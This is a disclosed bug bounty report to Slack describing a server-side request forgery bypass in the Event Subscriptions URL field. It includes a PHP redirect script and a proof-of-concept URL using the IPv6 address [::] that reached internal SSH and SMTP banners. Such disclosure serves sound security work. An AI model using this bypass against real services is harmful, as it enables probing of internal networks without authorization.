 # Bypass of the SSRF protection in Event Subscriptions parameter.

## Report Details
- **Report ID**: 386292
- **URL**: https://hackerone.com/reports/386292
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-07-24T15:39:16.016Z
- **Disclosed**: 2019-02-22T20:58:48.514Z

## Reporter
- **Username**: elber
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
The vulnerability is present in the "Event Subscriptions" parameter where:
"`Your app can subscribe to be notified of events in Slack (for example, when a user adds a reaction or creates a file) at a URL you choose.` ".
URL:
`https://api.slack.com/apps/YOUAPPCODE/event-subscriptions?`

When we add a site that does not meet API standards, we receive the following message:
{F323999}

`Your request URL gave us a 500 error. Update your URL to receive a new request and challenge value.`

After testing several SSRF techniques I found a bypass for this protection.
Using an IPV6 vector `[::]`.

On my host,  `x.php` has:

```
<?php
header("location: ".$_GET['u']);
?>
```
PoC:

http://hacker.site/x.php/?u=http://[::]:22/

Response:
SSH [::]:22

{F324002}

```
"body": {
 SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
Protocol mismatch.
 
}
```

SMNTP [::]:25

{F324001}

```
"body": {
 220 squid-iad-ypfw.tinyspeck.com ESMTP Postfix
221 2.7.0 Error: I can break rules, too. Goodbye.
 
}
```

Non-existent port:
{F324000}

## Impact

In a Server-Side Request Forgery (SSRF) attack, the attacker can abuse functionality on the server to read or update internal resources, and scan for internal ports and get the versions of the services running on the server.

Referer: https://www.owasp.org/index.php/Server_Side_Request_Forgery
https://hackerone.com/reports/61312

## Attachments
- host_error.png
- lcoalhost_error.png
- local_smntp.png
- local_ssh.png

